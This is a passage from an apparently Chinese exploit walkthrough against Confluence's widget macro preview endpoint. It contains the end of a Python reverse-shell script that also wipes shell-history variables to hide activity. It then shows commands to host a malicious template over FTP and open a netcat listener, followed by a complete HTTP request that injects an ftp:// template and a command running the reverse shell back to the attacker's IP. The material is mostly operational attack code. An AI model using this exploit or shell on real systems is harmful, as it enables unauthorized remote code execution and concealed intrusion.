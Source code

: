 ```
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```

### 2、python开启ftp服务
```
pip3 install pyftpdlib
python3 -m pyftpdlib -p  8888
```

![image](https://user-images.githubusercontent.com/84888757/172697728-a3746e99-e035-47bd-8808-0f75b433148c.png)

### 3、攻击方开启监听
`nc -lvvp 8989`

### 4、发送数据包
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.10.20.181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Referer: http://10.10.20.181/
Content-Length: 232
X-Forwarded-For: 127.0.0.2
Connection: keep-alive

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"ftp://攻击方ip:8888/r.vm","command":"setsid python /tmp/nc.py 攻击方ip 8989"},"body":""}}
```
